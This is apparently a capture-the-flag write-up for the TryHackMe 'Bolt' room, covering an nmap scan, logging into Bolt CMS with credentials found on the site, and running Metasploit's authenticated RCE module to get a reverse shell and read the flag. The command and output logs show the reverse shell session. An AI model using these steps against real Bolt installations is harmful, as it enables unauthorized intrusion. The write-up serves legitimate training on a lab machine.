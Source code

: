 # Bolt

<a href="https://tryhackme.com/room/bolt">Click here to see the room!</a>

First of all, connect to the VPN and deploy the machine.

The machine IP is ```10.10.189.109``` for me. (It will be different for you)

Run Nmap to search open ports
```
#nmap -sV -sC -A 10.10.189.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 03:08 BST
Nmap scan report for 10.10.189.109
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 155466
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: d172de
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Bolt | A hero is unleashed

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   72.13 ms 10.8.0.1
2   72.59 ms 10.10.189.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.21 seconds
```
3 ports are open.

#1 	What port number has a web server with a CMS running? The answer is there!

Let's check ```10.10.189.109:8000```. Yes it's working! Check the pages. You will find the answer of #2 What is the username we can find in the CMS? and #3 What is the password we can find for the username?

#4 	What version of the CMS is installed on the server? (Ex: Name 1.1.1)

Just google it how to reach the login page. On the https://docs.bolt.cm/3.7/manual/login you will find ```http://<IP:PORT>/bolt/login```. Enter the username and password that you find on the web page. Now you are on Dashboard page. At the left-bottom corner you can see the answer.

#5 	There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

Go to https://www.exploit-db.com/ and search for "Bolt cms". You will find the EDB-ID of Authenticated Remote Code Execution vulnerability.

#6 	Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

Run metasploit! I recommend you to update Metasploit first.

```
#msfconsole

msf6 > search bolt cms
#   Name                                              Disclosure Date  Rank       Check  Description
28  exploit/unix/webapp/bolt_authenticated_rce        2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
```
Can you see the full path for this exploit?

#7 	Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

You know the username and password. LHOST is your IP that you can find it on https://tryhackme.com/access or ```ifconfig``` on terminal. Keep LPORT 4444. RHOST is the target machine IP. You can see below how to set those parameters. PS: I hide username and password so don't set username as ```b...``` :D

Make sure everything is correct before running ```exploit```/```run```
```
msf6 > use 28
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.8.33.214
lhost => 10.8.33.214
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.189.109
rhosts => 10.10.189.109
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username b...
username => b...
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password b...........
password => b...........
```
#8 	Look for flag.txt inside the machine.

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.33.214:1234 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "biczvo".
[*] Found 2 potential token(s) for creating .php files.
[+] Used token 886cf3be6cb404b04c371dd3b6 to create jjgvqcgyaxm.php.
[*] Attempting to execute the payload via "/files/jjgvqcgyaxm.php?biczvo=`payload`"
[*] Command shell session 1 opened (10.8.33.214:1234 -> 10.10.189.109:60300) at 2020-08-23 03:41:42 +0100
[!] No response, may have executed a blocking payload!
[+] Deleted file jjgvqcgyaxm.php.
[+] Reverted user profile back to original state.

$ls
index.html
$pwd
/home/bolt/public/files
$cd ..
$ls
bolt-public
extensions
files
index.php
theme
thumbs
$cd ..
$ls
app
composer.json
composer.lock
cron
extensions
index.php
public
README.md
reboot.sh
src
vendor
$cd ..
$ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{w.._......_....._...._....7?}
```

Easy machine!

Many thanks to <a href="https://tryhackme.com/p/0x9747">0x9747</a> room creator and <a href="https://tryhackme.com">TryHackMe.com</a> for this free room.

If you think something is wrong, send a mail to hsnckkgl@gmail.com

Best wishes to all the CTF Players,

hsnckkgl
